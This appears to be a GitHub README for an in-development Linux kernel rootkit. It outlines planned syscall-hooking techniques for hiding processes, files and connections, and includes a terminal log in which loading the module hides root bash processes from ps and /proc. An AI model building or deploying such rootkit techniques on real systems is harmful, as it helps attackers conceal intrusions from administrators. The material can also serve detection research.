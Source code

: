 # No releases yet

This software is under development.  
There's not even 1 release yet.  
  
Atm I can copy the rootkit kernel into a memory area reserved with kmalloc, and this code is relocatable in any place just by the way it's coded.  
Checking the protections of the kernel memory pages, we can locate the rootkit in a rwx memory area. By that fault, I'm trying to do variants of the releases after developed this way of detection.  

# Planning of releases

- 1st release: hooking system by replacing syscall addresses from sys_call_table (the well-known way).
- 2nd release: hooking system by hooking inside the syscalls (helped by capstone).
- 3rd release: hooking system by replacing the address of the sys_call_table in the int 0x80 and the SYSCALL handler.
- 4th realase: try to hide processes, files and connections in a different way than hooking syscalls.

# An example of working of process hidding of the 4th release (rootkit.c first commit)

```
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
root      3924  0.0  0.1  61932  4052 pts/9    S    13:10   0:00 sudo bash
root      3925  0.0  0.1  29960  5444 pts/9    S+   13:10   0:00 bash
diwou@diwou-VirtualBox:~/arprootkit$ grep 392 rootkit.c
        hide_pid(3924);
        hide_pid(3925);
diwou@diwou-VirtualBox:~/arprootkit$ sudo insmod rootkit.ko
find_vpid ffff9df24f34c180
Ok
find_vpid ffff9df24f34cb00
Ok
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
diwou@diwou-VirtualBox:~/arprootkit$ ls /proc/3924
ls: no se puede acceder a '/proc/3924': No existe el archivo o el directorio
diwou@diwou-VirtualBox:~/arprootkit$ ls /proc/3925
ls: no se puede acceder a '/proc/3925': No existe el archivo o el directorio
diwou@diwou-VirtualBox:~/arprootkit$ sudo rmmod rootkit
Ok
Ok
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
root      3924  0.0  0.1  61932  4052 pts/9    S    13:10   0:00 sudo bash
root      3925  0.0  0.1  29960  5444 pts/9    S+   13:10   0:00 bash
```
